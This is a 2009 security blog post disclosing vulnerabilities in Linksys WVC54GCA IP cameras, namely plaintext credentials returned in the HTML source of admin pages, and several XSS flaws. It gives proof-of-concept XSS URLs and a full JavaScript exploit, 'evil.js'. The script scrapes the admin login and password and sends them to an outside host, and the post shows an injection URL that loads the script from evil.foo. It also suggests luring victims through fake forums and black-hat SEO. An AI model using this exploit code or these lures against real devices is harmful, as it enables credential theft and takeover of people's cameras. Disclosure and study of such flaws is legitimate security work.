 ```yaml
---
title: Hacking Linksys IP Cameras (pt 4)
author: pagvac
date: Sat, 25 Apr 2009 03:28:38 GMT
template: post.pug
category: fucked
---
```


_This article is a continuation of the following GNUCITIZEN articles, which include an introduction to the topic and also some initial observations: [Hacking Linksys IP Cameras (pt 1)](/blog/hacking-linksys-ip-cameras-pt-1/), [Hacking Linksys IP Cameras (pt 2)](/blog/hacking-linksys-ip-cameras-pt-2/), [Hacking Linksys IP Cameras (pt 3)](/blog/hacking-linksys-ip-cameras-pt-3/)._

There are two types of vulnerabilities I will be releasing today: disclosure of credentials in client-side source code and multiple XSS.

### Disclosure of Credentials in Client-side Source Code

As a consumer of embedded products, I find highly frustrating to see how many devices' web interfaces return passwords back to the browser within HTML source code. I've also seen similar problems in some corporate appliances, but is not such as common problem within the enterprise realm.

Visiting the change admin password page:

    /adm/file.cgi?next_file=pass_wd.htm

    Causes the current admin password to be returned (just view the source code with your browser):

    <input type="password" size="8" maxlength="64" name="admpw" value="**C4mP4ssw0rd**" onKeyDown="chkPsize(this.value.length,64,msg_bigpw)"></pre>`

    Visiting the "Wireless Security Page":

    /adm/file.cgi?next_file=Wsecurity.htm

    Causes the Wi-Fi WEP/WPA/WPA2 encryption key to be returned to the browser:

    <input type="text" name="psk" size="24" maxlength="63" value="**mywirelesskey**">

    Obviously this is bad news, as it means that every time the aforementioned pages are visited, credentials travel the clear (the WVC54GCA IP camera doesn't have SSL/TLS support).

    Now, I know there are people out there who might find these types of issues not worth fixing. The following is the thinking behind their reasoning.

    In the case of the admin password disclosure, some people would argue that this issue wouldn't make a difference security-wise, since the camera uses [basic authentication](http://en.wikipedia.org/wiki/Basic_access_authentication) which transmits credentials in the clear (base64 encoding) anyway.

    In the case of the wireless encryption key disclosure, some individuals point out that if you can sniff the Wi-Fi encryption key, it means that either 1) you're already part of the wireless network which means you must already know the key, or 2) you are part of the network via an ethernet connection which means that you don't need the wireless key at all.

    So why fix these issues then? Well, think of client-side attacks for instance. If you keep reading I'll show you how you can (for instance) use XSS to steal the admin password from the aforementioned page. If the admin password wasn't returned by the web interface, this attack would not be possible, despite basic authentication being used by the camera.

    ### Several XSS bugs

    Yes, XSS is the roach of the Internet, it's everywhere and we can't seem to be able to get rid of it! Of course, Linksys IP cameras are no exception. Finding XSS vulns requires virtually no skills (unless you are trying to bypass a strict filter logic). Also, hunting for XSS vulns can be kind of boring. As pdp usually says, "it's not finding XSS bugs which is interesting, but what you can do with it". I couldn't agree more.

    Boring PoCs:

    /main.cgi?next_file=%3Cimg%20src%3dx%20onerror%3dalert(1)%3E
    /img/main.cgi?next_file=%3Cimg%20src%3dx%20onerror%3dalert(1)%3E
    /adm/file.cgi?next_file=%3Cscript%3Ealert(1)%3C/script%3E
    /adm/file.cgi?todo=xss&this_file=%3cscript%3ealert(1)%3c/script%3e</pre>`

    XSS bug #1 works regardless of the authentication state of the victim user. The rest do require the victim user to be logged-in for the injected JS to run within the context of the camera's domain sandbox.

    As you can see in the first two XSS vulns, we use `img` tags, rather then `script` tags, due to closing `script` tags being filtered. Once again, the developers have chosen to perform filtering against some parameters, albeit poor filtering.

    #### Admin Password theft XSS PoC

    The following is the PoC exploit which steals the admin user's password.

    // **evil.js** : malicious JS file, typically located on attacker's site
    // payload description: steals Linksys WVC54GCA admin password via XSS
    // tested on FF3 and IE7
    // based on code from developer.apple.com
    function loadXMLDoc(url) {
    	req = false;
        	// branch for native XMLHttpRequest object
        	if(window.XMLHttpRequest && !(window.ActiveXObject)) {
        		try {	
    			req = new XMLHttpRequest();
            	} 
    		catch(e) {
    			req = false;
            	}
        	} 
        	// branch for IE/Windows ActiveX version	
    	else if(window.ActiveXObject) {
           		try { 
            		req = new ActiveXObject("Msxml2.XMLHTTP");
          		} 
    		catch(e)  {
            		try {
              			req = new ActiveXObject("Microsoft.XMLHTTP");
            		} 
    			catch(e) {
              			req = false;
            		}
    		}
        	}
    	if(req) {
    		req.onreadystatechange = processReqChange;
    		req.open("GET", url, true);
    		req.send("");
    	}
    }
    // end of loadXMLDoc(url)

    function processReqChange() {
       	// only if req shows "loaded"
        	if (req.readyState == 4) {
            	// only if "OK"
            	if (req.status == 200) { 
    			// dirty credentials-scraping code
    			var bits=req.responseText.split(/\"/);	
    			var gems="";
    			for (i=0;i<bits.length;++i) { 
                                    if(bits[i]=="adm" && bits[i+1]==" value=") {      
                                   		gems+="login="; 
    					gems+=bits[i+2];
                                    }
                                    if(bits[i]=="admpw" && bits[i+1]==" value=") {      
                                           	gems+='&password='; 
    					gems+=bits[i+2];    
                                    }
    			}
    			alert(gems); // this line is for demo purposes only and would be removed in a real attack
    			c=new Image();
    			c.src='http://google.com/x.php?'+gems; // URL should point to data-theft script on attacker's site
            	} 
        	}
    }

    var url="/adm/file.cgi?next_file=pass_wd.htm";
    loadXMLDoc(url);

    http://192.168.1.115/adm/file.cgi?next_file=%3cscript%20src=http://evil.foo/**evil.js**%3e%3c/script%3e

If you capture the traffic while testing the exploit against yourself you will see the admin login and password being sent to google.com:

<div class="screen">![Screenshot eth1 Capturing Wireshark 1](/files/2009/04/screenshot-eth1-capturing-wireshark1.png "Screenshot eth1 Capturing Wireshark 1")</div>

#### Attack Requirements

In order for this exploit to work, the camera admin user must be logged in when the attack occurs. This means that a bit of social engineering is required. For instance, the attacker could setup a forum to help users of the WVC54GCA camera by providing tips, FAQs, etc. If the attacker is serious he could use [black hat SEO](http://www.timesonline.co.uk/tol/driving/article754974.ece) and ad campaigns such as Google AdWords to attract Linksys camera users to visit the site containing the malicious XSS URLs. You get the idea!

### Testing Info

All Disclosure of Credentials and XSS vulnerabilities successfully tested on:

* WVC54GCA
* Firmware V1.00R22 and V1.00R24 (latest available as on 23rd April 2009)
